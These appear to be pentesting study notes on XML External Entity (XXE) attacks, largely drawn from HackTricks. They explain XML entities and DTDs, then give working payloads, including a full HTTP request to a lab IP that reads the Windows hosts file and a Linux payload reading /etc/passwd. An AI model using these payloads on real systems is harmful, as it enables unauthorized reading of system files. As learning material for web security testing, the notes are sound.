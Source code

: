 ```yaml
---
title: XXE - XEE XML External Entity attack 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - xee
  - xxe
---
```


# XXE - XEE XML External Entity attacks

Most of this content comes from [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity).

## Basic concepts

### What it XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. 

### What are XML entities?

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

### What are XML elements?

Element type declarations set the rules for the type and number of elements that may appear in an XML document, what elements may appear inside each other, and what order they must appear in. For example:

```
<!ELEMENT stockCheck ANY> Means that any object could be inside the parent <stockCheck></stockCheck>

<!ELEMENT stockCheck EMPTY> Means that it should be empty <stockCheck></stockCheck>

<!ELEMENT stockCheck (productId,storeId)> Declares that <stockCheck> can have the children <productId> and <storeId>
```

### What is document type definition?

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional DOCTYPE element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.


### What are XML custom entities?

XML allows custom entities to be defined within the DTD. For example:

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value".


### What are XML external entities?

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared. The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Main attacks

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### Read the file attack

In a windows system, we may use c:/windows/system32/drivers/etc/hosts:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

In a Linux server go for 

```
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
```
